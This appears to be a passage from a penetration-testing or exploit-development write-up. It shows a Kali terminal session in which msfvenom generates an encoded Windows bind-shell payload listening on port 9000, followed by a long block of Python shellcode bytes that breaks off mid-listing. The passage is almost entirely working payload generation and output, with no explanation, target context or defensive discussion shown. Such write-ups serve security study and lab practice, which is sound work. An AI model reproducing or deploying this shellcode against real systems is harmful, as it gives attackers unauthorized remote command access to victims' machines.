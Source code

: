 ![](/assets/img/Findings0/10.png)

After making code execution possible, shellcode is generated:

```terminal_session
root@kali:~# msfvenom -p windows/shell_bind_tcp LPORT=9000 -f py -e x86/alpha_mixed EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 718 (iteration=0)
x86/alpha_mixed chosen with final size 718
Payload size: 718 bytes
Final size of py file: 3499 bytes
buf =  b""
buf += b"\x89\xe1\xdd\xc5\xd9\x71\xf4\x5f\x57\x59\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x49\x49\x43\x43\x43\x43\x43\x43"
buf += b"\x37\x51\x5a\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41"
buf += b"\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
buf += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x69\x6c\x49\x78\x6e"
buf += b"\x62\x67\x70\x57\x70\x63\x30\x31\x70\x6f\x79\x78\x65"
buf += b"\x56\x51\x6b\x70\x72\x44\x6e\x6b\x70\x50\x70\x30\x6c"
buf += b"\x4b\x43\x62\x44\x4c\x4e\x6b\x46\x32\x54\x54\x4c\x4b"
buf += b"\x30\x72\x55\x78\x36\x6f\x68\x37\x30\x4a\x67\x56\x36"
buf += b"\x51\x6b\x4f\x4c\x6c\x65\x6c\x50\x61\x63\x4c\x54\x42"
buf += b"\x74\x6c\x67\x50\x59\x51\x5a\x6f\x36\x6d\x56\x61\x68"
buf += b"\x47\x4a\x42\x6a\x52\x70\x52\x63\x67\x6e\x6b\x73\x62"
buf += b"\x46\x70\x4e\x6b\x63\x7a\x77\x4c\x6c\x4b\x72\x6c\x36"
buf += b"\x71\x30\x78\x48\x63\x53\x78\x37\x71\x5a\x71\x43\x61"
buf += b"\x4c\x4b\x72\x79\x37\x50\x66\x61\x4a\x73\x4c\x4b\x52"
buf += b"\x69\x45\x48\x58\x63\x54\x7a\x30\x49\x6c\x4b\x64\x74"
buf += b"\x6e\x6b\x77\x71\x78\x56\x36\x51\x49\x6f\x6c\x6c\x6f"
buf += b"\x31\x68\x4f\x36\x6d\x73\x31\x78\x47\x45\x68\x69\x70"
buf += b"\x42\x55\x6c\x36\x35\x53\x51\x6d\x5a\x58\x75\x6b\x63"
buf += b"\x4d\x36\x44\x31\x65\x58\x64\x63\x68\x4e\x6b\x32\x78"
buf += b"\x47\x54\x46\x61\x4e\x33\x70\x66\x4e\x6b\x66\x6c\x30"
buf += b"\x4b\x6e\x6b\x51\x48\x47\x6c\x75\x51\x6e\x33\x6e\x6b"
buf += b"\x56\x64\x4c\x4b\x47\x71\x4e\x30\x6e\x69\x63\x74\x57"
buf += b"\x54\x57\x54\x31\x4b\x53\x6b\x61\x71\x32\x79\x33\x6a"
buf += b"\x46\x31\x79\x6f\x4d\x30\x73\x6f\x31\x4f\x43\x6a\x6c"
```